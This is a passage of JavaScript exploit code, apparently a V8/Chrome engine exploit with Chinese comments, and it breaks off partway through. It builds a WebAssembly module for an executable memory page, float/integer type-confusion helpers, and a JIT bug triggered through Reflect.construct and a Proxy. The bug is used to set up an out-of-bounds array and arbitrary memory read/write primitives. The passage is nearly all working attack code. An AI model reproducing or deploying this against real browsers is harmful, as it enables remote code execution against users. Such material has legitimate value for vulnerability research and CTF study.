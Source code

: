 ```
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_module;
var wasm_instance;
var wasm_function;
var wasm_function_addr;
var wasm_shared_info;
var wasm_data;
var wasm_instance;
var wasm_rwx;

// 用来实现类型转换
var buf =new ArrayBuffer(16);
var uint32 = new Uint32Array(buf);
var float64 = new Float64Array(buf);
var big_uint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return big_uint64[0];
}
// uint-->float
function i2f(i)
{
    big_uint64[0] = i;
    return float64[0];
}
// 64-->32
function f2half(val)
{
    float64[0]= val;
    let tmp = Array.from(uint32);
    return tmp;
}
// 32-->64
function half2f(val)
{
    uint32.set(val);
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
    return "0x" + a.toString(16);
}

function empty() {}
function f(p) {
    // 2.42902434121390450978968281326E-319 == 0xC00C
    vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {};                 // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];                  // 修改此数组的length来达到oob
        uint64_arw = new BigUint64Array(2); // 实现任意地址读写
        obj_leaker = {
            a: 0xc00c/2,
            b: oob_array,
```